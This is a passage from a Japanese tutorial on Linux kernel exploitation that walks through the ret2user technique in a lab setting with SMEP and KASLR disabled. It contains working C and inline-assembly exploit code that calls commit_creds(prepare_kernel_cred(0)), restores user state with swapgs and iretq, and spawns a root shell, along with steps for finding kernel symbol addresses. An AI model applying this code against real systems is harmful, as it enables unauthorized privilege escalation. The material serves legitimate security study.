 ## ret2user (ret2usr)
ここまで説明してきた理論を使って、いよいよ権限昇格を実践してみます。

まずは最も基礎的な手法であるret2userについて説明します。今回SMEPが無効なので、ユーザー空間のメモリに置いてあるコードをカーネル空間から実行できます。つまり、ここまで説明した`prepare_kernel_cred`, `commit_creds`, `swapgs`, `iretq`の流れをそのままC言語で書いておけばOKです。
```c
static void win() {
  char *argv[] = { "/bin/sh", NULL };
  char *envp[] = { NULL };
  puts("[+] win!");
  execve("/bin/sh", argv, envp);
}

static void restore_state() {
  asm volatile("swapgs ;"
               "movq %0, 0x20(%%rsp)\t\n"
               "movq %1, 0x18(%%rsp)\t\n"
               "movq %2, 0x10(%%rsp)\t\n"
               "movq %3, 0x08(%%rsp)\t\n"
               "movq %4, 0x00(%%rsp)\t\n"
               "iretq"
               :
               : "r"(user_ss),
                 "r"(user_rsp),
                 "r"(user_rflags),
                 "r"(user_cs), "r"(win));
}

static void escalate_privilege() {
  char* (*pkc)(int) = (void*)(prepare_kernel_cred);
  void (*cc)(char*) = (void*)(commit_creds);
  (*cc)((*pkc)(0));
  restore_state();
}
```
これらの処理は簡単なKernel Exploitでは頻出なので、各自自分に合ったコードでテンプレートとして持っておきましょう。`main`関数の先頭にでも`save_state`を呼ぶ処理を追加しておきましょう。

`escalate_privilege`関数内で`prepare_kernel_cred`と`commit_creds`という関数ポインタが必要になりますが、今回KASLRが無効なのでこの値は固定のはずです。実際にこれらの関数のアドレスを取得し、コード中に書いておきましょう。

<center>
  <img src="img/check_kallsyms.png" alt="/proc/kallsymsからアドレスを取得" style="width:380px;">
</center>

さて、あとは脆弱性を使って`escalate_privilege`関数を呼べば終わりです。適当に`escalate_privilege`のポインタを大量に書き込んでも良いですが、後々ROPをすることになるので、リターンアドレスの正確なオフセットを把握しておきましょう。
オフセットはカーネルモジュールをIDAなどで読んで計算しても良いですが、せっかくなのでgdbを使って脆弱性が発火する部分を確認しましょう。
